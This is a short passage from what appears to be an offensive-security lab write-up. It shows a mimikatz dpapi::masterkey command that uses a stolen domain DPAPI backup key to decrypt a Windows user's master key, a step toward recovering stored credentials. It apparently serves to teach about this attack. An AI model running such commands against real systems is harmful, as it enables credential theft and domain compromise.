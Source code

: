 ![](../../.gitbook/assets/screenshot-from-2019-04-13-16-57-55.png)

Using the retrieved backup key, let's decrypt user's `spotless` master key:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```
{% endcode-tabs-item %}
{% endcode-tabs %}
